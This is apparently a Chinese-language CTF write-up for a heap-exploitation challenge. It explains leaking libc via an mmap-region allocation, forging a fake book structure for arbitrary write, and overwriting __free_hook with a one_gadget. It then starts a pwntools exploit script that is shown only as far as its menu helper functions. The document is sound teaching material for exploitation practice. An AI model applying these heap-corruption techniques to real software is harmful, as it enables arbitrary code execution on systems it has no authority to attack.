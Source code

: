 ## 泄漏libc基址

可以进行任意写了，那么我们还需要知道一下libc基址。如此一来，我们才可能将system或者one gadget写入malloc_free或者free_hook中。这里采用的方法是用malloc申请一个很大(大于128k)的地址,于是这个地址就被分配在了mmap区域，mmap区域和libc的偏移是固定的，所以我们泄漏mmap的地址，就等于泄漏出了libc的基址。

# exp解释

leak通过在原来的book1的description中伪造了一个新的book1做了两件事情。第一，新的book1的name ptr的值为book2 description的值，即mmap的地址，通过show()函数能泄漏出mmap的地址，从而获得libc基址。第二，由于可以通过新的book1的description指针指向的地址进行任意写，所以这里我们修改了book3的description ptr为free hook地址。
最后对book3修改它的description的内容，实际上也就是修改了free_hook的内容。这里就修改成one_gadget。

另外一个值得注意的点：

```
edit(1, p64(free_hook) + "\x08") 
```

由于edit也调用了null off by one的读入函数，如果后面不加\x00的话，那么book3的size字段就变成了0，之后的读入就是读入0字节。

完整的exp如下：

```
 from pwn import *

DEBUG = 1

io = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

if DEBUG == 1:
    context.terminal = ["/usr/bin/tmux", "splitw", "-h", "-p", "70"]
    context.log_level = "DEBUG"

def create(name, description):
    io.recvuntil("> ")
    io.sendline("1")
    io.recvuntil(": ")
    io.sendline(str(len(name)))
    io.recvuntil(": ")
    io.sendline(name)
    io.recvuntil(": ")
    io.sendline(str(len(description)))
    io.recvuntil(": ")
    io.sendline(description)

def delete(index):
    io.recvuntil("> ")
    io.sendline("2")
    io.recvuntil(": ")
    io.sendline(str(index))

def edit(index, description):
    io.recvuntil("> ")
    io.sendline("3")
    io.recvuntil(": ")
    io.sendline(str(index))
    io.recvuntil(": ")
    io.sendline(description)

def change_name(name):
    io.recvuntil("> ")
    io.sendline("5")
    io.recvuntil(": ")
    io.sendline(name)
```